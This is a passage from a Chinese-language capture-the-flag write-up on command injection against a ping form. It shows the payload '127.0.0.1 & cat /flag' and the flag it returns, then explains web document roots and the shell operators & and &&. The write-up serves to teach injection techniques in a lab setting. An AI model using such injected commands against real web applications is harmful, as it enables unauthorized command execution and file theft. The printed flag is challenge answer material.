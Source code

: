 ```
tmp
usr
var
```
可以看到它返回了目录列表。
#### 第二步 

```
127.0.0.1 & cat /flag
```
得到
```
flag{ee79ce5d-c618-4380-b2d9-9443537c23aa}
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.144 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.116 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.120/0.144 ms
```

-----

### 3 
不过一般来说上述payload会被视为非法请求路径或命令，并返回一个错误页面或者其他类似的响应。但也有存在安全漏洞的web应用。

- ls 显示文件和目录列表
- cat 顺序显示文本文件内容
- dir 显示文件和目录列表，但不带颜色识别

当连接到一个 Web 服务器时，浏览器将通过该服务器提供的文件来访问页面和资源。根目录会根据 Web 服务器的配置而不同。

Web 服务器通常有一个根目录（也称为文档根目录或网站根目录），它是服务器上存储网页和资源的主要目录。当浏览器请求一个页面或资源时，Web 服务器会根据请求的 URL 和配置的规则来确定从哪个位置提供文件。

例如，如果配置的根目录是 `/var/www/html`，那么当浏览器请求 `http://example.com/index.html`时，Web 服务器会在 `/var/www/html` 目录中查找 `index.html` 文件，并将其发送给浏览器作为响应。

因此，当连接到 Web 服务器时，访问的根目录将是由服务器配置决定的，它会从指定的根目录中提供文件和资源。


||作用|
|---|---|
|`&`|个控制操作符，用于在后台同时运行多个命令。它使得第一个命令在后台运行时，可以立即开始执行第二个命令。|
|`&&`|一个逻辑运算符，表示只有在前一个命令执行成功后才会继续执行后面的命令。如果第一个命令执行失败，则第二个命令不会被执行。|
|`ls /`|这个命令将列出根目录下的所有文件和目录。在 Linux 或 Unix 操作系统中，`ls`命令用于列出指定目录中的文件和子目录的名称。`/` 表示根目录，这里的命令将在根目录下执行 `ls`命令，并显示所有文件和目录的名称。
|
|`cat /flag`|显示指定文件的内容，并将其输出到终端上。这里指定文件是`flag`|


## 
